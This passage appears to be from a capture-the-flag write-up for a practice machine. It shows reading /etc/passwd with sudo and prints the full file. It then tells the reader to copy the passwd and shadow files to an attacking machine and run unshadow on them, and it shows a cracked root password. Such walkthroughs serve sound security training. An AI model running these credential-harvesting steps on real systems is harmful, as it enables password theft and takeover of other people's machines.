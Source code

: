 ```bash
sudo cat /etc/passwd
```

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
thm:x:1000:1000:THM Room:/home/thm:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
john:x:1001:1001:john,,,:/home/john:/bin/bash
```

Copy the password and shadow file to your attacking machine and unshadow it.

```bash
 unshadow passwd.txt shadow.txt > unshadowed.txt
```

![Desktop View](/assets/images/brute-it/unshadow.png){: width="972" height="589" }

```bash
root:football:0:0:root:/root:/bin/bash
```
